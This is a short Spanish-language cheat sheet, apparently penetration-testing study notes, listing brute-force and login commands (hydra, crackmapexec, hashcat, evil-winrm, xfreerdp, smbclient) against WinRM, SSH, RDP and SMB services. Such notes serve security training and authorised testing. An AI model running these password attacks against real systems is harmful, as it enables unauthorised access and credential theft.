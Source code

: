 # Password Attacks o Ataques de Contraseña
## Descripción
Decifrar contraseñas

### WinRM (5985 HTTP y 5986 HTTPS)
```python
crackmapexec winrm IP -u user.list -p password.list
evil-winrm -i IP -u user -p password (tenemos credenciales arriba y esto es para hacer login)
```
### SSH (22)
```python
hydra -L user.list -P password.list ssh://IP
ssh user@IP (para ganar acceso al sistema con las credenciales descubiertas)
```
### RDP (3389)
```python
hydra -L user.list -P password.list rdp://IP
xfreerdp /v:IP /u:user /p:password (para ganar acceso al sistema con las credenciales descubiertas)
```
### SMB (445)
```python
hydra -L user.list -P password.list smb://IP
crackmapexec smb IP -u "user" -p "password" --shares
smbclient -U user \\\\IP\\SHARENAME
```

### Generar lista de palabras basada en reglas
```python
hashcat --force password.list -r custom.rule(este arribo debes de elaborar tu regla) --stdout | sort -u > mut_password.list
```

